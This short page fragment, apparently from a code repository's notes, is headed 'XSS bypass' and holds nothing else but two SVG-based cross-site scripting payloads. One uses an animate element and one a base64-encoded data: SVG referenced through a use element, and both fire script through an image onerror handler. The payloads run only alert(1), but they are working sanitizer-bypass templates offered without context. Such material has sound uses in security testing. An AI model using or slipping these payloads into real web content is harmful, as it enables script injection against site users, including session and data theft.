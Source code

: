 ## XSS bypass

`<svg><animate xlink:href="#x" attributeName="href" values="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg'><image href='1' onerror='alert(1)' /></svg>#x" /><use id=x />`

`<svg><use href="data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnPgo8aW1hZ2UgaHJlZj0iMSIgb25lcnJvcj0iYWxlcnQoMSkiIC8+Cjwvc3ZnPg==#x" /></svg>`

